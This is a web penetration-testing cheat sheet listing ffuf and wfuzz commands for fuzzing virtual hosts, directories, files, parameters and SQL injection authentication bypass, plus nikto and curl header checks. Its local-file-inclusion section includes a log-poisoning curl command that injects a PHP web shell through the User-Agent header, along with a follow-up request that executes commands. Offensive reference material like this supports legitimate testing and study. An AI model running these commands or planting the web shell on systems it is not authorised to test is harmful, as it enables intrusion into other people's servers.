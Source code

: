 # Hypertext Transfer Protocol

### Source Code Review

_Review source code and Page Contents With Burp Suite/Site Map. Add Target Scope under Target > Scope > Add_

_View Landing Page /_

_Add domain or hostname to Kali /etc/hosts file and review landing page /_

### General Scoping

* _Discover Potential Filename patterns for custom bruteforcing directories and files._
* _Discover usernames or email addresses with exiftool after downloading._
* _Discover HTTP Server Version._
* _Discover JavaScript Version._
* _Search For JavaScript Known Version Vulnerabilities._
* _Discover Web Application Name._
* _Discover Web Application Version._
* _Search For Web Application Known Version Vulnerabilities._
* _check certificate if applicable._
* _Discover Admin Login pages._
* _Test For default credentials._
* _Discover User Logins._
* _Discover User Registrations._

### View Certificate Information

_Browse to the `https://$ip/` and view the certificate_

### Server Header Information

```
curl -IL $webserver
```

### Fuzzing Vhosts

{% code overflow="wrap" %}
```
ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://domain.com/ -H 'Host: FUZZ.domain.com' -fs xxx
```
{% endcode %}

### Fuzzing Directories  Files Parameters

_Be sure to test both http and https_

_Extensions_

{% code overflow="wrap" %}
```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt -u http://domain.com/somedir/indexFUZZ -fc 404
```
{% endcode %}

_Directories_

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u http://$ip/FUZZ/ -fc 404
```
{% endcode %}

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$ip/FUZZ/ -fc 404
```
{% endcode %}

_Files_

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt -u http://$ip/FUZZ -fc 404
```
{% endcode %}

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -u http://$ip/FUZZ -fc 404
```
{% endcode %}

_Parameters_

GET

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://$ip/somefile?FUZZ=key
```
{% endcode %}

POST

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://domain.com/path/to/resource.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx
```
{% endcode %}

_Values_

_values can be for example usernames, names, id's_

{% code overflow="wrap" %}
```
ffuf -w values.txt -u http://domain.com/path/to/resource.php -X POST -d 'someParameter=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx
```
{% endcode %}

_Random_

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -u http://$ip/FUZZ -fc 404
```
{% endcode %}

### Response Headers

_Search headers such as X-Powered-By. This may reveal vulnerable versioning_

```
curl -I http://$ip/
```

### Nikto Vulnerability Scanner

```
nikto -h http://$ip
```

### Command Injection

### Local File inclusion

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -u http://$ip/site/index.php?page=FUZZ
```
{% endcode %}

_Linux_

```
curl http://$ip/ -A "<?php system(\$_GET['cmd']);?>"
```

_Windows_

```
curl http://$ip/site/index.php\?page=../../path/to/log\&cmd=ipconfig
```

### Remote File inclusion

### SQL injection

#### **Authentication Bypass**

Manually confirm the results to then filter out unwanted responses by using --hh

```
wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "form" --hc 404 $url
```

```
wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d "form" --hc 404 $url
```

### XXE

### XSS
